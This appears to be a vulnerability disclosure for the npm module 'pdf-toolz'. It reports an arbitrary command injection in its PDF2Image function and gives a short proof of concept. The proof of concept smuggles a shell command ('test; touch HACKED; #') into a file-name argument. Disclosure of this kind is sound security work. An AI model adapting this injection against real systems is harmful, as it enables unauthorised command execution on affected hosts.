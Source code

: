 # :bug: Description

The `pdf-toolz` module is vulnerable against `arbitrary command injection` due to the fact some `inputs` given by the `user` are unsafely processed and executed.

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var pdf = require('pdf-toolz/PDF2Image');
pdf.pdfToImage("a", "test; touch HACKED; #");

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
apt-get install graphicsmagick # Install the *gm* executable needed for the module
npm i pdf-toolz # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
